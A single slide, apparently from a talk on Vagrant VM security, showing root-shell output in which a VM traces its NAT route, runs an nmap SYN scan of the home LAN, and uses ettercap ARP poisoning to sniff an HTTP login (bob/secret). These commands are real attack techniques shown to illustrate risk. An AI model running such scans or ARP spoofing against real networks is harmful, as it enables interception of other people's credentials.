

# THE SECURITY : NETWORK
Routing (NAT)
root@vagrant-ubuntu-precise-64:~# tracepath 8.8.8.8
0.092ms pmtu 1500
1: 10.0.2.15 (10.0.2.15)
1: 10.0.2.2 (10.0.2.2)
2: router.home (192.168.1.1)
...
Port Scans
0.176ms
asymm 64 1.464ms
root@vagrant-ubuntu-precise-64:~# nmap -sS 10.0.2.2,192.168.1.1/24 -Pn
Password Sniffing*
root@vagrant-ubuntu-precise-64:~# ettercap -q -i eth1 -T -M arp:remote ///  ettercap NG-0.7.4.2 copyright 2001-2005 ALoR & NaGA
...
HTTP : 192.168.1.20:80 -> USER: bob PASS: secret INFO: bob/admin/
*) Requires vagrant to be in public network.
52